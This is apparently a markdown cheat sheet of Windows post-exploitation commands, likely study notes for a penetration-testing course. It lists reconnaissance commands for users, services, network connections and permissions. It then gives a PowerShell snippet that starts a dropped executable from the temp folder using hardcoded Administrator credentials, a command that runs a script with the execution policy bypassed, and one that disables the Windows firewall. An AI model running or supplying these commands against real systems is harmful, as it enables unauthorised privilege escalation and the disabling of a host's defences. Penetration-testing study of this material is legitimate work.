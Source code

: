 #### What OS is the target running:
`systeminfo | findstr /B /C:"OS Name" /C:"OS Version"`

#### Hostname
`hostname`

`echo %hostname%`

#### List users on the local machine and query specific username
`net users`

`net user bob`


#### View Network Interfaces and Routing Table
`ipconfig /all`

`route print`

`arp -A`

#### Active Network Connections and Firewall Rules

`netstat -ano`

`netsh firewall show state`

`netsh firewall show config`

#### Running Processes and Scheduled Tasks

`schtasks /query /fo LIST /v`

`tasklist /SVC`

`net start`

`DRIVERQUERY`

`sc query type= service`

`sc qc <SERVICE NAME>`
  
  
`wmic useraccount where name='robert' get sid`


`accesschk.exe -uwdqs Users c:\ /accepteula`



## Powershell Exploit (Page 360 in PWK)

```
$secpasswd = ConvertTo-SecureString "sup3r53cr3tGP0pa55" -AsPlainText -Force
$mycreds = New-Object System.Management.Automation.PSCredential ("Administrator",
$secpasswd)
$computer = "DEV01"
[System.Diagnostics.Process]::Start("C:\Windows\temp\dabbb118.exe","",
$mycreds.Username, $mycreds.Password, $computer)
```

Run this:

> powershell -ExecutionPolicy Bypass -File c:\Windows\temp\run.ps1


### Other Useful Commands

> netsh firewall set opmode mode=DISABLE
